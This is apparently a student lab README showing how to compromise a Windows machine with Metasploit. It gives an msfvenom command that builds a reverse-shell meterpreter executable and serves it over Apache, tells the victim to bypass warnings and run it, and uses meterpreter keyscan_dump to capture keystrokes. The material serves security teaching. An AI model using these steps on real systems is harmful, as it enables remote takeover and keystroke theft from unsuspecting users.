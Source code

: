 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![image](https://github.com/user-attachments/assets/1d451619-2771-413f-99a5-555dea70ebe2)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![image](https://github.com/user-attachments/assets/32443e42-0f5f-43ae-a265-be0e73598446)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/e3477802-b427-40cf-a904-a517b822fa23)

Start apache server sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/6f0b2ea4-2d3a-4780-be16-4092777d577d)

Check the status of apache2
![image](https://github.com/user-attachments/assets/09480f89-8df3-4c7d-9f80-5b088b366479)
## Output:

![image](https://github.com/user-attachments/assets/3f36166f-40ac-47f7-8fb2-39f672702749)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/user-attachments/assets/35fd16fa-7aac-4500-b450-ef479fa8af99)

Starting a command and control Server use multi/handler
![image](https://github.com/user-attachments/assets/5c801a2c-fcc1-4609-b9be-706e99ddd221)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/52d85a18-6bb2-4130-aee9-506fdba6bf25)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/bd10c68b-19ee-469a-8f1a-91672ff1dfca)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/78cd0fe8-e345-4fe5-a8e1-22e3d6c0d693)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/dd77eead-46d4-4280-b298-433bd3e63fc4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
